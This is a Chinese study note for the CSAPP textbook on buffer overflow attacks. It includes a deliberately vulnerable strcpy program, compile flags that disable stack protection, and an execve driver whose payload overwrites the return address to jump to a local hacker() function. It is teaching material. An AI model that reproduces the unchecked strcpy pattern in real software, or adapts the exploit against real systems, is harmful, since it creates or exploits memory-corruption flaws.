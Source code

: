 ```yaml
---
title: 'Chapter III-6'
description: 'CSAPP NOTE CHAP III-6'
order: 5
---
```


# Chap 3.6 越界访问和缓冲区攻击

## 缓冲区溢出

**定义** C 语言没有对数组的边界作出约束，因此访问下标可能越界，称为 **缓冲区溢出**

例如：

1. char s[10];
2. s[10] = -1; // 越界
3. char *p = s;
4. *(p + 13) = 40; // 越界

​	第 2 行、第 4 行的数组访问，都超出了数组的边界，产生了缓冲区溢出。

## 缓冲区溢出攻击

**原理** 由于数组/缓冲区是局部变量，都放在堆栈段里，而程序的返回点也在堆栈段里，因此利用缓冲区溢出修改对应返回点，让程序跳进自己的恶意代码即可攻击。

**原因** 没有对栈中作为缓冲区的数组做越界检查。

**例子** 利用缓冲区溢出转到自设的程序 hacker 去执行 outputs 漏洞：当命令行中字符串超 25 个字符时，使用 `strcpy` 函数就会使缓冲 buffer 造成写溢出并破坏返址

```c
#include "stdio.h"
#include "string.h"
void outputs(char *str) 
{ 
    char buffer[16]; 
    strcpy(buffer,str); 
    printf("%s \n", buffer);
}
void hacker(void)
{
    printf("being hacked\n");
}
int main(int argc, char *argv[])
{
    outputs(argv[1]);
    return 0;
}
```

> 编译时，关闭堆栈保护和 PIE (Position Independent Executable), 编译命令为
>
> `gcc -g -m32 -fno-stack-protector -no-pie -fno-pic -o test test.c`

由于无法从控制台直接输入 ascii 码，因此编写一个程序调用 execve() 系统函数，启动 test 可执行程序，并注入攻击字符串。

```c
// exec.c
#include "stdio.h"
char code[] = 
  "0123456789ABCDEF0123456789AB"
  "\xc5\x91\x04\x08"
  "\x00";
int main(void) 
{
  char *arg[3];
  arg[0] = "./test";
  arg[1] = code;
  arg[2] = NULL;
  execve(arg[0], arg, NULL);
  return 0;
}
```

运行结果如下：

![image-20251022144318401](https://img.nkns.cc/PicGo/image-20251022144318401.png)

因为 `"\xc5\x91\x04\x08"` 这里是对应的程序返回地址，这里将它覆盖成了 `0x080491c5` ，成功执行 hacker 函数。